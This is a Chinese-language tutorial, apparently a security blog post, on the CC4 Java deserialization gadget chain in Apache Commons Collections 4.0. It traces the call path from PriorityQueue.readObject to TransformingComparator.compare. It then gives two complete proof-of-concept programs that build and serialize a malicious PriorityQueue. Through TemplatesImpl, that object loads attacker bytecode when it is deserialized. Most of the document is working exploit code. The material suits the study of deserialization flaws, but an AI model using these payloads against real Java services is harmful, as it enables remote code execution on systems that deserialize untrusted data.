


新依赖：
<dependency>
<groupId>org.apache.commons</groupId>
<artifactId>commons-collections4</artifactId>
<version>4.0</version>
</dependency>原理
后半段是CC3的后半段，利用transformer代码执行。我们需要找到新的调用transform函数的方法。
由于TransformingComparator类在commons-collections3没有实现序列化接口，而commons-collections4实现了，所以才有CC4链的存在。
寻找
CC4链主要利用的是TransformingComparator类里的compare方法
public int compare(Object obj1, Object obj2) {
Object value1 = this.transformer.transform(obj1);
Object value2 = this.transformer.transform(obj2);
return this.decorated.compare(value1, value2);
}这个方法里调用了transform方法。接下来往回找，谁调用了compare方法。
在PriorityQueue类里的siftDownUsingComparator方法调用了compare方法。
private void siftDownUsingComparator(int k, E x) {
…………
if (comparator.compare(x, (E) c) <= 0)
…………
}顺着链子继续找，在本类的siftDown方法调用了siftDownUsingComparator方法：
private void siftDown(int k, E x) {
if (comparator != null)
siftDownUsingComparator(k, x);
else
siftDownComparable(k, x);
}顺着链子继续找，在本类的heapify方法调用了siftDown方法：
private void heapify() {
for (int i = (size >>> 1) - 1; i >= 0; i--)
siftDown(i, (E) queue[i]);
}顺着链子继续找，在本类的readObject方法调用了heapify方法：
private void readObject(java.io.ObjectInputStream s) throws java.io.IOException, ClassNotFoundException {
…………
heapify();
}所以整条链子是这样的：
在PriorityQueue中：
readObject->heapify->siftDown->siftDownUsingComparator->TransformingComparator类的compare……
https://infernity.top/img/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-CC4%E9%93%BE/image-20240417185120263.png构造
PriorityQueue类是可序列化的，我们直接new，然后把相应的对象传进去就可以了。
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);但是仅仅这样还是不能触发反序列化，我们进入调试：

https://infernity.top/img/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-CC4%E9%93%BE/image-20240417191714591.png原因是在heapify方法里size为零，不能进入siftDown方法，直接出去了。
这里有两个方法：
方法一：
反射修改size，让size等于2。
Class priorityQueueClass = priorityQueue.getClass();
Field sizeField = priorityQueueClass.getDeclaredField("size");
sizeField.setAccessible(true);
sizeField.set(priorityQueue,2);修改size的poc：
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import javax.xml.transform.Templates;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;
public class test {
public static void main(String[] args) throws Exception {
TemplatesImpl templates = new TemplatesImpl(); //TemplatesImpl类可以序列化，直接new
//反射修改类的属性_name
Class c = templates.getClass();
Field nameField = c.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates,"aaa");
//反射修改类的属性_bytecodes
byte[] code = Files.readAllBytes(Paths.get("/home/yinyun/Documents/JavaLearing/CC/target/classes/runtime.class")); //构建一维byte数组，为了适应defineClass接收的参数，并从文件里读byte
byte[][] codes = {code}; //把一维byte数组变成二维的交给_bytecodes
Field bytecodesField = c.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
bytecodesField.set(templates,codes);
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(TrAXFilter.class),
new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer); //方法一
PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
//方法一修改size
Class priorityQueueClass = priorityQueue.getClass();
Field sizeField = priorityQueueClass.getDeclaredField("size");
sizeField.setAccessible(true);
sizeField.set(priorityQueue,2);
serialize(priorityQueue);
}
public static void serialize(Object obj) throws Exception {
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("serialize"));
oos.writeObject(obj);
}
}方法二：
我们也能通过该类自带的add方法给size传值，我们进入add：
public boolean add(E e) {
return offer(e);
}进入offer：
public boolean offer(E e) {
if (e == null)
throw new NullPointerException();
modCount++;
int i = size;
if (i >= queue.length)
grow(i + 1);
size = i + 1; //给size传值
if (i == 0)
queue[0] = e;
else
siftUp(i, e); //siftUP方法
return true;
}进入siftUP方法：
private void siftUp(int k, E x) {
if (comparator != null)
siftUpUsingComparator(k, x);
else
siftUpComparable(k, x);
}发现siftUP和siftDown方法几乎是一模一样的。
这里跟URLDNS链差不多，如果我们直接调用add方法，这里就会走完整条链子，但是并不会反序列化，所以我们需要先在前面把比如给TransformingComparator赋值一个没用的，然后add完了之后再改回chainedTransformer。
TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));add后反射修改回去即可：
priorityQueue.add(1);
priorityQueue.add(2);
Class t = transformingComparator.getClass();
Field transformerField = t.getDeclaredField("transformer");
transformerField.setAccessible(true);
transformerField.set(transformingComparator,chainedTransformer);完整CC4链：
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import javax.xml.transform.Templates;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;
public class CC4 {
public static void main(String[] args) throws Exception {
TemplatesImpl templates = new TemplatesImpl(); //TemplatesImpl类可以序列化，直接new
//反射修改类的属性_name
Class c = templates.getClass();
Field nameField = c.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates,"aaa");
//反射修改类的属性_bytecodes
byte[] code = Files.readAllBytes(Paths.get("/home/yinyun/Documents/JavaLearing/CC/target/classes/runtime.class")); //构建一维byte数组，为了适应defineClass接收的参数，并从文件里读byte
byte[][] codes = {code}; //把一维byte数组变成二维的交给_bytecodes
Field bytecodesField = c.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
bytecodesField.set(templates,codes);
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(TrAXFilter.class),
new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
//TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer); //方法一
TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1)); //方法二
PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
//方法一修改size
// Class priorityQueueClass = priorityQueue.getClass();
// Field sizeField = priorityQueueClass.getDeclaredField("size");
// sizeField.setAccessible(true);
// sizeField.set(priorityQueue,2);
//方法二
priorityQueue.add(1);
priorityQueue.add(2);
Class t = transformingComparator.getClass();
Field transformerField = t.getDeclaredField("transformer");
transformerField.setAccessible(true);
transformerField.set(transformingComparator,chainedTransformer);
serialize(priorityQueue);
}
public static void serialize(Object obj) throws Exception {
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("serialize"));
oos.writeObject(obj);
}
}